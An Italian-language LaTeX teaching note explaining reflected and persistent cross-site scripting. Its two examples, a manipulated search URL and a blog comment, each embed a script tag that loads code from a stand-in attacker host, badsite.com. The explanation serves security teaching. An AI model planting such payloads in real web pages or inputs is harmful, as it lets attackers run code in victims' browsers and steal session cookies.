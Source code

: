 \documentclass{article}
\begin{document}
\subsection*{Cross-Site Scripting (XSS)}

L'attacco XSS consiste nel forzare l'esecuzione di uno script (solitamente JavaScript) nel contesto di una sessione web legittima. Poiché i messaggi HTTP sono rappresentati in testo semplice, è possibile nascondere del codice eseguibile all'interno delle stringhe di testo.

\subsubsection*{XSS lato Client (Reflected)}

In questo scenario, lo script malevolo non risiede sul server, ma viene "riflesso" attraverso una richiesta manipolata. Lo script viene eseguito sul computer della vittima nel contesto del browser, permettendogli di accedere a tutto ciò a cui il browser ha accesso (come i cookie di sessione).

\begin{itemize}
    \item \textbf{Esempio tecnico:} Consideriamo una URL di ricerca come \texttt{http://www.google.com/search?name=<SCRIPT SRC=http://badsite.com/xss.js></SCRIPT>\&q=cross+site+scripting}.
    \item \textbf{Spiegazione:} Qui l'attaccante ha inserito un tag \texttt{<SCRIPT>} nel parametro \texttt{name}. Se l'applicazione web visualizza il valore di "name" nella pagina dei risultati senza filtrarlo, il browser dell'utente interpreterà quel testo come codice, scaricherà lo script malevolo da \texttt{badsite.com} e lo eseguirà immediatamente.
\end{itemize}

\subsubsection*{XSS lato Server (Persistent)}

Questo attacco è più grave perché lo script malevolo viene salvato permanentemente sul server (ad esempio in un database) e viene servito automaticamente a ogni utente che visita quella specifica pagina.

\begin{itemize}
    \item \textbf{Esempio tecnico:} Immaginiamo una sezione commenti di un blog dove un utente pubblica il seguente testo: \texttt{Cool<br>story.<br>KCTVBigFan<script src=http://badsite.com/xss.js></script>}.
    \item \textbf{Spiegazione:} Il server salva questo commento così com'è. Ogni volta che un altro utente apre la pagina dei commenti, il suo browser scarica il testo "Cool story", ma incontra anche il tag \texttt{<script>}, eseguendo silenziosamente il codice malevolo caricato dall'attaccante.
\end{itemize}
\end{document}
